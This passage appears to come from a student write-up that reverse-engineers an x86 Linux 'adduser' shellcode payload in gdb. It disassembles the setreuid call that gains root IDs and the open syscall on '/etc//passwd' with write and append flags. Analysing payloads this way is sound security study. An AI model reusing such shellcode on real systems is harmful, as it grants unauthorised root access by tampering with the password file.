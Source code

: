 ```
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[--------------------------------code------------------------------]
   0x804a044 <shellcode+4>: push   0x46
   0x804a046 <shellcode+6>: pop    eax
   0x804a047 <shellcode+7>: int    0x80
=> 0x804a049 <shellcode+9>: push   0x5
   0x804a04b <shellcode+11>: pop    eax
   0x804a04c <shellcode+12>: xor    ecx,ecx
   0x804a04e <shellcode+14>: push   ecx
   0x804a04f <shellcode+15>: push   0x64777373
[-----------------------------stack--------------------------------]
0000| 0xbffff6ec --> 0x8048430 (<main+76>: mov    edi,DWORD PTR [ebp-0x4])
0004| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0008| 0xbffff6f4 --> 0x28 ('(')
0012| 0xbffff6f8 --> 0x8049ff4 --> 0x8049f28 --> 0x1 
0016| 0xbffff6fc --> 0x8048461 (<__libc_csu_init+33>: lea    eax,[ebx-0xe0])
0020| 0xbffff700 --> 0xffffffff 
0024| 0xbffff704 --> 0xb7e54196 (add    ebx,0x172e5e)
0028| 0xbffff708 --> 0xb7fc6ff4 --> 0x1a5d7c 
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a049 in shellcode ()
``` 
To make sure that the reuid and euid of the current process actually has been set probably, you can run the following command:
```
gdb-peda$ shell ps -o pid,euid,ruid,cmd
  PID  EUID  RUID CMD
 5463     0  1000 sudo gdb ./adduser
 5464     0     0 gdb ./adduser
 5466     0     0 /home/dipsy/Desktop/Assignments/Analysis/adduser
 5560     0     0 ps -o pid,euid,ruid,cmd
 ``` 
# Analyzing SYS-CALLS (MOV AL, 0x5)
The second syscall sets the EAX to 0x5, EBX to hex values and ECX to 0x401.
```
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
``` 
Lets clarify the meaning of the syscall and the passed parameters by running the following command.
```
dipsy@ubuntu:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 5 
#define __NR_open    5
``` 
So syscall 0x5 corresponds to open, we can query more information by utilizing the manual.
``` 
dipsy@ubuntu:~$ man 2 open
``` 
According to the manual; “The open() system call opens the file specified by pathname.” 
